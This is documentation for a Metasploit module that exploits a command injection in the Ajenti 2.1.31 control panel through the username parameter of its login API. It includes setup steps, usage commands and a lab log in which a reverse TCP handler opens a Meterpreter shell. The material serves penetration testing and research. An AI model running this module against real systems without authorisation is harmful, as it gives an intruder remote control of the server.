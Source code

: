 ## Description

This module exploits a command injection in Ajenti == 2.1.31. By injecting a command into the username POST parameter to api/core/auth, a shell can be spawned.

## Vulnerable Application

This module has been tested with [Ajenti 2.1.31](https://pypi.org/project/ajenti-panel/2.1.31/#files)

### Setup

1. `sudo pip install ajenti-panel==2.1.31 ajenti.plugin.dashboard ajenti.plugin.settings ajenti.plugin.plugins`
2. `ajenti-panel -v`

## Verification Steps

  1. `use exploit/unix/webapp/ajenti_auth_username_cmd_injection`
  2. `set RHOSTS <rhost>`
  3. `set LHOST <lhost>`
  4. `exploit`

## Options

**RPORT**

Set this to the Ajenti port. The default is 8000.

**TARGETURI**

Set this to the Ajenti base path. The default is `/`.


## Scenarios

### Tested Ajenti 2.1.31 on Ubuntu 19.10 x64

```
msf5 > use exploit/unix/webapp/ajenti_auth_username_cmd_injection
msf5 exploit(unix/webapp/ajenti_auth_username_cmd_injection) > set RHOSTS 172.16.172.135
RHOSTS => 172.16.172.135
msf5 exploit(unix/webapp/ajenti_auth_username_cmd_injection) > set LHOST 172.16.172.1
LHOST => 172.16.172.1
msf5 exploit(unix/webapp/ajenti_auth_username_cmd_injection) > exploit

[*] Started reverse TCP handler on 172.16.172.1:4444
[*] Exploiting...
[*] Sending stage (53755 bytes) to 172.16.172.135
[*] Meterpreter session 1 opened (172.16.172.1:4444 -> 172.16.172.135:53170) at 2019-11-18 19:51:04 +0300

meterpreter >

```
